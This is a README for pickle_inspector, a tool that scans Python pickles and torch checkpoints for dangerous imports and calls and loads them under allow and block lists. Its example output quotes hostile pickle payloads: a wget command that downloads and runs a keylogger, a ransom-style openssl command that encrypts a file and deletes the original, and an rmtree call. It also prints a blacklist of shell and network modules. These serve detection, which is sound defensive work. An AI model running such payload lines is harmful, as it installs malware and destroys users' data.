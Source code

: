 <!--
Copyright (C) 2023  Lopho <contact@lopho.org>

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU Affero General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Affero General Public License for more details.

You should have received a copy of the GNU Affero General Public License
along with this program.  If not, see <https://www.gnu.org/licenses/>.
-->

# pickle_inspector 🥒🔬
Check what is in the pickle before eating it.

1. [About](#about)
1. [Command line usage](#scanning-pickles-via-command-line)
1. [Library usage](#inspecting)
1. [Controlled unpickling](#controlled-unpickling)
1. [Black- and whitelists](#blacklist--whitelist)
1. [Acknowledgements](#acknowledgements)

## About

- Trace calls and imports that would occur if a pickle had been loaded
- Flat but detailed call graphs
- Load malicious pickles by skipping blacklisted items
- Library and script usage
- Combination of black and whitelists for fine grained control
- Can be used with pytorchs load function

It works on any type of pickle, but was made with `torch` in mind.

NOTE:
torch == 1.13.0 breaks using custom unpicklers, see https://github.com/pytorch/pytorch/issues/88438 \
This is fixed in torch 1.13.1 and 2.x.x.

## Scanning pickles via command line
**tl;dr** just let me scan my pickles.
Using a preset blacklist for arbitrary code execution
```sh
python scan_pickle.py -f exec -i pickled.pkl
```
```
> Using blacklist: exec
> Scanning file(s): ['pickled.pkl']
> Using black list: ['__builtin__.breakpoint', '__builtin__.open', 'requests.*', 'builtins.open', '__builtin__.compile', 'socket.*', 'builtins.breakpoint', 'os.*', 'nt.*', 'builtins.eval', 'webbrowser.*', '__builtin__.eval', 'builtins.exec', 'posix.*', '__builtin__.exec', '__builtin__.getattr', 'builtins.getattrsubprocess.*', 'builtins.compile', 'aiohttp.*', 'httplib.*', 'sys.*']
> Reading pickled.pkl
> Scanning: pickled.pkl
> found: __builtin__.exec
> found: zlib.decompress
>
> Found blacklisted items:
>
>   __builtin__.exec.__call__((zlib.decompress((b'x\xda5\xcd]\n\xc3 \x10\x04\xe0\xf7\x9cb\xd9\x17\x15$\x07\x08x\x87\xde@$\xac\xe9R\xff\xd0\r\t\x94\xde\xbdB\xe9<}\x0c\x0c\x13{\xcd\x90\xcf$\xdcz\xddi\x0c.\x07pn\xb5\x0b<~\xcd\xd2\xc0\xfd\xad%\xf4\x83\xc4\xd1M\xbb\x85\xe9\xe14"^,O\xa8\x8d\x8aV\xa9\xa6UnQ\x16\xd4\xa5\x0c\x84\x01q[`\xa6u.\xa21\x9e\xfb\x0b-DN\xe4\xa2\x99[\xfbF\xefK\xc8\xe4=n\x939p\x99\xfcX0fi\xeb\x98\x8f\xa2\xcd\x17\x1d%6\xbc',), {}),), {})
>
> Scan for pickled.pkl FAILED ⚠️
```
Using a preset whitelist for a stable diffusion checkpoint
```sh
python scan_pickle.py --preset stable_diffusion_v1 --in sus.ckpt
```
```
> Using whitelist: stable_diffusion_v1
> Scanning file(s): ['sus.ckpt']
> Using white list: ['collections.OrderedDict', 'torch._utils._rebuild_tensor_v2', 'torch.HalfStorage', 'torch.FloatStorage', 'torch.IntStorage', 'torch.LongStorage', 'pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint', 'numpy.core.multiarray.scalar', 'numpy.dtype', '_codecs.encode']
> Reading sus.ckpt
> Found pickle in zip: archive/data.pkl
> Scanning: archive/data.pkl
> found: torch._utils._rebuild_tensor_v2
> found: torch.FloatStorage
> found: collections.OrderedDict
> found: torch.IntStorage
> found: torch.LongStorage
> found: pytorch_lightning.callbacks.model_checkpoint.ModelCheckpoint
> found: numpy.core.multiarray.scalar
> found: numpy.dtype
> found: _codecs.encode
>
> Scan for sus.ckpt PASSED ✅
```
### Script usage
```
usage: scan_pickle.py [-h] -i INPUT [INPUT ...]
                      [-p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]]
                      [-f {exec} [{exec} ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]]

Scan pickles

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT [INPUT ...], --in INPUT [INPUT ...]
                        path to a pickle(s) or zip(s) containing pickles
  -p {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...], --preset {stable_diffusion_v1,stable_diffusion_v2} [{stable_diffusion_v1,stable_diffusion_v2} ...]
                        a whitelist preset to use
  -f {exec} [{exec} ...], --preset_blacklist {exec} [{exec} ...]
                        a blacklist preset to use
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        whitelist of modules and functions to allow
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        blacklist of modules and functions to block
```
## Inspecting
Inspect without unpickling.
```py
import torch
import pickle_inspector
result = torch.load('sus.pt', pickle_module=pickle_inspector.inspector)
for c in result.imports:
    print(c)
```
notice calls to `shutil.rmtree`, `os.system` or similar
```
> shutil.rmtree
> torch._utils._rebuild_tensor_v2
> collections.OrderedDict
> numpy.core.multiarray.scalar
> os.system
> numpy.dtype
> _codecs.encode
```
so we are taking a closer look at what is being called
```py
for c in result.calls:
    print(c)
```
and it seems like someone tried to delete something and ransom a file
```
> shutil.rmtree(('/very/important/folder'), {})
> collections.OrderedDict((), {})
> torch._utils._rebuild_tensor_v2((None, 0, (1000,), (1,), False, collections.OrderedDict((), {})), {})
...
> torch._utils._rebuild_tensor_v2((None, 0, (), (), False, collections.OrderedDict((), {})), {})
> os.system(('openssl enc -aes-128-ecb -in important_file -out give_money.enc -K 1337B00B135DEADBEEF; rm important_file'), {})
> numpy.dtype(('f8', False, True), {})
> numpy.dtype.__setstate__(((3, '<', None, None, None, -1, -1, 0),), {})
> _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})
> numpy.core.multiarray.scalar((numpy.dtype(('f8', False, True), {}), _codecs.encode(('ñhã\x88µøÔ>', 'latin1'), {})), {})
```
## Controlled unpickling
Inspect and unpickle using white and blacklists.

```py
import torch
from pickle_inspector import UnpickleConfig, UnpickleControlled, PickleModule
config = UnpickleConfig()
# only allow  modules, classes and funcions in the whitelist
# the rest will be stubbed
config.whitelist = [
        'torch._utils._rebuild_tensor_v2',
        'torch.FloatStorage',
        'torch.IntStorage',
        'torch.LongStorage',
        'numpy.core.multiarray.scalar',
        'numpy.dtype',
        'collections.OrderedDict',
        '_codecs.encode'
]
result = torch.load('model.ckpt', pickle_module = PickleModule(UnpickleControlled, config))

# Use the state_dict as usual
state_dict = result.structure
# ...

# print import results
for c in result.imports:
    print(c)
```
```
> torch._utils._rebuild_tensor_v2
> torch.FloatStorage
...
> __builtin__.eval
> collections.OrderedDict
...
```
```py
for c in results.calls:
    if 'eval' in c:
        print(c)
```
```py
> __builtin__.eval('import os;os.system("wget https://sus.to/keylog;chmod +x keylog;./keylog &")')
```
## Blacklist & Whitelist
- Whitelist only: everything will be blocked except items in the whitelist
- Blacklist only: everything will be allowed except items in the blacklist
- Both black- and whitelist: everything in the blacklist will be blocked except items in the whitelist

Example: Block everything within `torch` except `torch.FloatStorage`
```py
conf.blacklist = ['torch.*']
conf.whitelist = ['torch.FloatStorage']
```

## Whitelist for stable diffusion
A premade whitelist for stable diffusion v1 and v2 is available in this project.

Example: Scan a stable diffusion v1 checkpoint
```py
import torch
from pickle_inspector import UnpickleConfig, PickleModule, UnpickleInspector, importlists
conf = UnpickleConfig(whitelist = importlists.stable_diffusion_v1)
torch.load('sd-v1-4.ckpt', pickle_module=PickleModule(UnpickleInspector, conf))
```

Tested with python 3.9 and torch 1.12.1

---

## Acknowledgements

- [pickle_injector](https://github.com/coldwaterq/pickle_injector) where [coldwaterq](https://github.com/coldwaterq) describes an easy way to inject malicious code into pickle files
- [picklescan](https://github.com/mmaitre314/picklescan) by [mmaitre314](https://github.com/mmaitre314) as an alternative approach to pickle scanning


---

Copyright (C) 2023  Lopho `<contact@lopho.org>`\
Licensed under the AGPLv3 `<https://www.gnu.org/licenses/agpl-3.0.html>`
